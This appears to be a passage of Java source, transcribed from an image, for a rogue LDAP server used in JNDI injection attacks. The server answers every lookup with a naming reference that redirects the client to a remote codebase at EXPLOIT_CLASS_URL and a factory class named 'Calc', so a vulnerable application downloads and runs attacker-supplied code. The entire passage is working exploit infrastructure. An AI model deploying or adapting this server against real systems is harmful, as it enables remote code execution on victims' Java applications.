 ```
        int port = 7912;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(EXPLOIT_CLASS_URL)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;
        public OperationInterceptor(URL cb) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            } catch (Exception e1) {
                e1.printStackTrace();
            }

        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Calc");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if (refPos > 0) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```